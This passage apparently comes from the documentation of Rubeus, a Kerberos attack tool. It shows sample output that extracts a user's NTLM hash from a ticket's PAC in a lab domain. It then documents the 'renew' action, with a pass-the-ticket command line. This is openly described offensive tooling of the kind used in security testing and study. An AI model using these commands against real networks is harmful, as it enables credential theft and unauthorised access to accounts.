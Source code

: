           UserSessionKey       : 0000000000000000
          LogonServer          : PDC1
          LogonDomainName      : RUBEUS
          LogonDomainId        : S-1-5-21-3237111427-1607930709-3979055039
          UserAccountControl   : (528) NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
          ExtraSIDCount        : 1
          ExtraSIDs            : S-1-18-1
          ResourceGroupCount   : 0
        CredentialInfo         :
          Version              : 0
          EncryptionType       : rc4_hmac
          CredentialData       :
            CredentialCount    : 1
              NTLM             : C69A7EA908898C23B72E65329AF7E3E8
        ClientName             :
          Client Id            : 19/07/2021 23:00:38
          Client Name          : harmj0y
        UpnDns                 :
          DNS Domain Name      : RUBEUS.GHOSTPACK.LOCAL
          UPN                  : harmj0y@rubeus.ghostpack.local
          Flags                : 0
        ServerChecksum         :
          Signature Type       : KERB_CHECKSUM_HMAC_MD5
          Signature            : ADEC4A1A7DF70D0A61047E510E778454 (VALID)
        KDCChecksum            :
          Signature Type       : KERB_CHECKSUM_HMAC_SHA1_96_AES256
          Signature            : 6CF688E02147BEEC168E0125 (UNVALIDATED)

**Note The `/asrepkey` from the TGT retrival must be passed to decrypted the CredentialData section where the NTLM hash is stored but the `/servicekey` argument is not required here as the session key from the TGT is being used because it is a user-to-user request.

### renew

The **renew** action will build/parse a raw TGS-REQ/TGS-REP TGT renewal exchange using the specified `/ticket:X` supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a `/dc` is not specified, the computer's current domain controller is extracted and used as the destination for the renewal traffic. The `/ptt` flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session.

Note that TGTs MUST be renewed before their EndTime, within the RenewTill window.

    C:\Rubeus>Rubeus.exe renew /ticket:ticket.kirbi /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
